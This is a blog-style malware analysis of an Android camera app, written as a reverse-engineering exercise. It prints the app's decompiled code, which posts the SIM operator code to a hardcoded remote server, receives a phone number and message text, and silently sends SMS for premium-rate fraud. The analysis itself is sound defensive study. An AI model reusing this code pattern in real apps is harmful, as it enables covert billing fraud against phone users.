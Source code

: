 ```yaml
---
title: ThaiCam apk Malware Analysis
date: 2024-03-05 00:00:00 +0530
categories: [Android, Malware]
tags: [android, re, malware]
---
```


In the past year, I got the opportunity to look at various android apks and their pentest reports. I found these quite interesting and wanted to learn more. And to get a grip on the subject I did various courses which could be found online. But courses alone weren't sufficient to deepen my understanding. 

One of my friends suggested Maddie Stone's hands-on session on [Android 101](https://www.ragingrock.com/AndroidAppRE/) and I am blessed that I went ahead with it. It was a delight to work with many apks and understand what are the small nuances made the malicious. 

### Intro

The first apk was a ThaiCamera.apk which could be doing premium SMS fraud. I did my analysis at start and found a couple of things and finally could prove that the apk was malicious. This was relatively easier to reverse as it was not heavily obfuscated and some of the malicious functionalities were straightforward. 

So, here is my process of analysing this. Please note that this might not be the best pathway or process to identify malwares or malicious activities, but since this was a simple apk, it worked out well for me.  

### Static Analysis

As usual, used jadx-gui to look at the source code and then I opened the manifest file to look for any unwanted permissions that the app was using. 

In that for a camera app, the send sms permission was suspisioucs : 

`<uses-permission android:name="android.permission.SEND_SMS"/>`

Keeping this in mind, I started looking at the classes with intent-filters and/or the ones that can be exported. 
The launcher acticity was `com.cp.camera.Loading` and I started to reverse this. 

```java
<activity android:label="@string/app_name" android:name="com.cp.camera.Loading" android:screenOrientation="portrait">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>

```

![alt text](assets/images/thaicam.png "ThaiCamera")

In the loading class, we can already see some strings suggesting sending of SMS : 

`public static final String SENT_SMS_ACTION = "SENT_HUGE_SMS_ACTION";`
`private String IMEIS;`
`private String imeicontent;`

And a few others getting the device and operator details. 

```
TelephonyManager telManager = (TelephonyManager) getSystemService("phone");
String operator = telManager.getSimOperator();
```

In the oncreate function, we can see that a `loginByPost` is being called with operator as parameter (Operator is what is returned by the getSimOperator() function). 

`getSimOperator()` is a method in the TelephonyManager classused to retrieve the MCC+MNC of the subscriber's network.

```java
    public String loginByPost(String code) {
        String str = Build.VERSION.RELEASE;
        String str2 = Build.MODEL;
        getPhoneNumber();
        getDeviceId();
        try {
            String spec = "http://139.59.107.168:8088/appsharejson?code=" + code;
            URL url = new URL(spec);
            HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
            urlConnection.setRequestMethod("POST");
            urlConnection.setReadTimeout(5000);
            urlConnection.setConnectTimeout(5000);
            urlConnection.setDoOutput(true);
            urlConnection.setDoInput(true);
            if (urlConnection.getResponseCode() == 200) {
                InputStream is = urlConnection.getInputStream();
                ByteArrayOutputStream baos = new ByteArrayOutputStream();
                byte[] buffer = new byte[1024];
                while (true) {
                    int len = is.read(buffer);
                    if (len != -1) {
                        baos.write(buffer, 0, len);
                    } else {
                        is.close();
                        baos.close();
                        return new String(baos.toByteArray());
                    }
                }
            } else {
                return "error";
            }
        } catch (Exception e) {
            e.printStackTrace();
            return "error";
        }
    }
```

The `loginByPost` method tries to send a POST request to a website along with the Network Code of the sim. If it is a success, then the response is copied and returned to the `jsonStr` String and the corresponding `service` and `content` are set according to the `imeicontent` object in the json. 

As this is based on the sim Operator (carrier network) of the user, this could mean that the `service` phone number is actually a premium number and the `content` is also something which could trigger the fraud. 

But before going into that part, there is something interesting happening here. 

The function checks the build version of the apk and if it is <23 then the sendMessage() is called but otherwise, the permission is checked. 

Specificlly it checks if this is granted - `android.permission.SEND_SMS`, if not a call to `requestPermissions()` happens. 

When you call `requestPermissions`, a dialog will be shown to the user asking for permission. Once the user responds, the system will invoke the `onRequestPermissionsResult` callback method in the activity, where the user's response is handled.


```java
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == 1 && grantResults[0] == 0) {
            if (this.service != null && this.content != null) {
                sendMessage(this.service, this.content);
                return;
            }
            return;
        }
        Toast.makeText(this, "Please allow access！", 1).show();
    }
```

As a result if the permission is granted, sendMessage() function is called with the service and content variables as parameters. If it is not granted by the user, a short notification is displayed, asking `"Please allow access！"`. 

Technically, this might seem to be authorized, as the SMS is being sent only when the user allows the permission "SEND_SMS". But no, this cannot be considered consent due to the fact that the user was not made aware that SMS will be sent to unknwon numbers or if SMS is actually going to be sent. 

Granting the app permission to send message does not mean the user consents to getting billed for sending SMS. 

```java
    public void sendMessage(String mobile, String content) {
        Bundle bundle = new Bundle();
        bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
        this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);
        Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
        itSend.putExtras(bundle);
        SmsManager sms = SmsManager.getDefault();
        PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
        try {
            if (content.length() > 70) {
                List<String> msgs = sms.divideMessage(content);
                for (String msg : msgs) {
                    sms.sendTextMessage(mobile, null, msg, sentintent, null);
                }
                return;
            }
            sms.sendTextMessage(mobile, null, content, sentintent, null);
        } catch (Exception e) {
            SharedPreferences sharedPreferences = getSharedPreferences("videoLibrary", 0);
            SharedPreferences.Editor editor = sharedPreferences.edit();
            editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_NO);
            editor.apply();
            e.printStackTrace();
        }
    }
```


Now digging a little more into the important functionality, a new intent with `"SENT_HUGE_SMS_ACTION"`  is created with the `SEND_SMS` extra and text message is sent according to the content retrieved from the `jsonStr` object. 

### Conclusion

To summarise, three things are happening here : 

- The camera app is sending SMS messages
- The phone number and content that are being sent are retrieved from an external website (might be premium numbers)
- These happen without the knowledge of the user. 

Hence, we can conclude that Premium SMS fraud is indeed happening via the Camera app. 

Huge thanks to [Maddie Stone](https://twitter.com/maddiestone) for providing quality content helping all of us to get started with Android RE. 


